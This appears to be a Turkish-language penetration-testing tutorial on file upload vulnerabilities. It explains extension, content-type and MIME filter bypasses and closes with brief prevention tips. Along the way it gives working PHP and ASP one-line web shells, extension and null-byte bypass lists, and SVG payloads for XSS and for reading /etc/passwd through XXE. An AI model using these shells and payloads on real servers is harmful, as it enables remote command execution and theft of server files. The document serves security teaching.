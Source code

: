 # Dosya Yükleme Saldırıları
Dosya yükleme zafiyetlerinin en temel nedeni, yüklenen dosyaların türü ve içeriğinin yeterli düzeyde doğrulanmamasıdır. Bu durumda saldırganlar herhangi bir dosya tipini yükleyebilir ve backend sunucuda zararlı kod çalıştırabilir. Bazı uygulamalar yalnızca belirli dosya türlerine izin verir. Ancak bu durumda bile zafiyetler söz konusu olabilir. Örneğin:
- Dosya yükleme üzerinden XSS veya XXE gibi farklı açıkların tetiklenmesi.
- Arka uç sunucuya yönelik DoS (Denial of Service) saldırılarının gerçekleştirilmesi.

# Dosya Yükleme Zafiyetlerinin Sömürüsü
Zafiyetin istismar edilebilmesi için ilk adım, uygulamanın hangi dil ve platform üzerinde çalıştığının tespit edilmesidir. zararlı script’ler, yalnızca sunucunun çalıştığı programlama diliyle uyumlu olduğunda kullanılabilir. Genellikle bu tespit, sayfa uzantıları üzerinden yapılabilir (.php, .asp, .aspx vb.). Ancak bazı modern framework’lerde web routes nedeniyle bu uzantılar gizlenmiş olabilir. Uygulama PHP tabanlı olduğunu varsayalım, dosya yükleme fonksiyonunun php uzantılı dosyaları kabul edip etmediğini test etmek için minimal bir reverse shell yüklenebilir:
```php
<?=`$_GET[0]`?> // 0 parametresini URL'den alır ve değeri işletim sistemi komutu olarak çalıştırır
```

Veya ASP için aşağıdaki reverse shell kullanılabilir:
```c#
<% eval request('cmd') %>
```

## İstemci Tarafı Dosya Uzantısı Kontrolü
İstemci tarafında çalışan her kod bizim kontrolümüzdedir. Web sunucusu front-end kodunu gönderir, ancak kod tarayıcıda çalıştırılır. Eğer back-end tarafında doğrulama yoksa, teorik olarak herhangi bir dosya türünü yükleyebiliriz.

## Back-end Tarafında Dosya Uzantısı Doğrulama
Genellikle iki yaygın yöntem vardır:
- blacklist ve whitelist kontrolü.

Ayrıca, doğrulama dosya tipini veya içerik tipini kontrol edebilir. En zayıf doğrulama yöntemi, sadece dosya uzantısını kara listeye karşı kontrol etmektir. 

### Blacklist
Örnek PHP kodu:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

Bu kod, dosya uzantısını ($extension) alır ve black list uzantıları ile ($blacklist) karşılaştırır. Eğer listede varsa yükleme engellenir.

PHP bütün dosya uzantıları:
```
php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

ASP dosya uzantıları:
```
.asp
.aspx
.config
.cer # (IIS <= 7.5)
.asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap
```

### Whitelist
Whitelist Örneği:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

Kod, dosya adının whitelisted resim uzantılarını içerip içermediğini regex ile kontrol ediyor. Sorun şu regex yalnızca dosya adının uzantıyı içerip içermediğine bakıyor, dosya adının uzantı ile bitip bitmediğini kontrol etmiyor. Regex sadece dosya adında izin verilen uzantıyı aradığı için, basit bir yöntem double extension kullanmak. Örneğin .jpg izinliyse, dosya adını shell.jpg.php yapabiliriz.

Bazı uygulamalar daha katı regex kullanır:
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ... }
```

Bu regex yalnızca dosya adının son uzantısını kontrol eder. Önceki saldırı burada işe yaramaz. Ancak bazı durumlarda, web sunucusu konfigürasyonu nedeniyle hala istismar edilebilir.

Örnek Apache Konfigürasyonu:
```
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

#### Character Injection
İzin verilen uzantıdan önce veya sonra bazı karakterler ekleyerek web uygulamasının dosya adını yanlış yorumlamasını sağlayabiliriz.
Örnek karakterler:
``` 
%20, %0a, %00, %0d0a, /, .\, ., …, :
```

Örnek:
- shell.php%00.jpg → PHP 5.X veya daha eski sürümlerde %00 sonrası dosya adı kesilir ve shell.php olarak kaydedilir, whitelist testi geçer.
- Windows sunucularda, kolon : eklenerek benzer bypass sağlanabilir (örn. shell.aspx:.jpg).

### Type Filter
Örnek PHP kodu:
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

Burada $type, yüklenen dosyanın Content-Type başlığından alınıyor. Tarayıcılar dosya seçildiğinde Content-Type başlığını otomatik ayarlar (genellikle uzantıya bağlı olarak). Bu, istemci tarafında kontrol edildiği için manipüle edilebilir ve filtre atlanabilir.

#### MIME-Type Kontrolü
İkinci ve daha yaygın yöntem, dosyanın MIME-Type ile kontrol edilmesidir. MIME, dosyanın türünü genel format ve byte yapısına göre belirler. Genellikle dosyanın ilk birkaç byte’ı (Magic Bytes / File Signature) incelenir.
Örnek:
- Dosya GIF87a veya GIF89a ile başlıyorsa GIF kabul edilir.
- Dosya düz metin ile başlıyorsa Text dosyası kabul edilir.

PHP ile MIME-Type kontrolü:
```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

MIME-Type ile Content-Type benzer, ancak PHP mime_content_type() fonksiyonunu kullanır.

Örnek olarak PHP web shell’in başına GIF8 eklenebilir.

## XSS (Cross-Site Scripting)
Belirli dosya türleri, Stored XSS açığı oluşturmak için kullanılabilir. Web uygulaması HTML dosyalarına izin veriyorsa, PHP kodu çalıştıramasak bile JavaScript ekleyerek XSS veya CSRF saldırısı gerçekleştirebiliriz. 
SVG dosyaları da XSS için uygundur:
```svg
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

Yüklendiğinde XSS payload tetiklenir.

## XXE (XML External Entity)
Benzer şekilde, XXE saldırıları da gerçekleştirilebilir. SVG veya XML dosyaları kullanarak sunucu dosyalarına erişebiliriz.
Örnek SVG ile /etc/passwd okumak:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Yüklendiğinde ve görüntülendiğinde /etc/passwd içeriği sayfada veya kaynakta görünür.

# File Upload Zafiyetlerini Önlemek
- Dosya yükleme fonksiyonları uzantı doğrulamasını güvenli bir şekilde yapabilmelidir. Whitelisting her zaman daha güvenlidir.
- Uzantı doğrulaması tek başına yeterli değildir; dosya içeriği de doğrulanmalıdır. Dosya uzantısı ve içeriği her zaman eşleşmelidir.
